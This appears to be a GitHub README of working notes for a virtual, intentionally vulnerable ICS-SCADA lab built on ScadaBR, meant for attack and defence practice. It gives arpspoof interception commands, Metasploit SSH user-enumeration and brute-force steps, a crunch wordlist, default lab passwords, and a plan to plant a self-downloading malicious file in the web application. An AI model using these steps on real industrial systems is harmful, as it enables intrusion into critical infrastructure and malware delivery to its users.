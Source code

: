 # ICS-SCADA-Vulnerable-Virtual-Lab
A simple purely virtualized vulnerable ICS-SCADA lab. 
------
To do:
* See how to manipulate html files through ssh so
  machines automatically download/execute a malicious file
------
Blue team:
- think PUFNTALR
Processes (meterpreter)
Users currently logged on (root)
Files of interest (http images, sql databases)
Network connections (meterpreter reverse tcp)
Tasks (malware in startup?)
Accounts and access modified (scadabr now has admin rights)
Logs
Registry

---------------------
arpspoof -i eth0 -t 10.0.3.16 10.0.3.8
arpspoof -i eth0 -t 10.0.3.8 10.0.3.16

sysctl -w net.ipv4.ip_forward=1
---------------------------------------
once ssh, maybe
find / | grep login | more
Something else to consider, once in ssh, start
looking for files pertaining to the website.
Perhaps what you can do is insert a malicious
file that automatically downloads upon entering
a webpage. Look at the source info of the
page (login page for example) and look at
the different paths in the system. Example
/images/mangoLogoMed.jpg
$find / | grep mangoLogoMed
//then modify it
/opt/tomcat6/apache-tomcat-6.0.53/webapps/ScadaBR/images
download mangoLogoMed.jpg /home/kali/Desktop/scadabr
***Interesting folder,where all the juice is!
/opt/tomcat6/apache-tomcat-6.0.53/webapps/ScadaBR/WEB-INF/jsp
-------
uploading files directly with ssh:
scp fileName user@remotehost:/home/username/destination
//https://phoenixnap.com/kb/linux-ssh-commands#:~:text=Introduction,is%20at%20a%20high%20level.
----------
Once ssh with root, go to your favorite folder (/opt) and type
$grep -R1 "your string" ./ | more
to look for strings inside the files
-i = ignore text case
-R = recursively search files in subdirectories
-l = show file names instead of file content portions

-----
ssh:
//blue team - look at /var/log/auth.log
//$cat /var/log/auth.log | tail -n 30
//look at ip, perhaps | grep sshd
msf > use auxiliary/scanner/ssh/ssh_enumusers
//set USERNAME root, run
//set USERNAME admin, run
//set USERNAME ScadaBR, run
$crunch 7 scadabr > crunch.txt
msf > use auxiliary/scanner/ssh/ssh_login
//after finding out the credentials
msf > use multi/ssh/sshexec

$ssh scadabr@10.0.3.16
//password: scadabr 

//root account is root::scadabr
----------------------
$cd /
$find . | grep http
-------------
https://www.tecmint.com/35-practical-examples-of-linux-find-command/
find / - name login*
This has your source files
$/opt/tomcat6/apache-tomcat-6.0.53/webapps/ScadaBR/WEB-INF/jsp
Example, below coincides with a snippet of our login source page code
(line 168 - 252)
$cat /opt/tomcat6/apache-tomcat-6.0.53/webapps/ScadaBR/WEB-INF/jsp/login.jsp
-----
RESOURCES
----
Vulnerabilities of ICS (best source - site attacks, XXS, DoS, etc)
(look at attacks and vulnerabilities)
https://nps.primo.exlibrisgroup.com/permalink/01NPS_INST/1gqbqb3/wilbooks10.1002%252F9781119644538.ch5

Good too - Cybersecurity for Industrial Control Systems
https://nps.primo.exlibrisgroup.com/permalink/01NPS_INST/1gqbqb3/crc_bkTANDF_198979

SCADA systems cyber vulns
https://electricenergyonline.com/energy/magazine/181/article/SCADA-System-Vulnerabilities-to-Cyber-Attack.htm

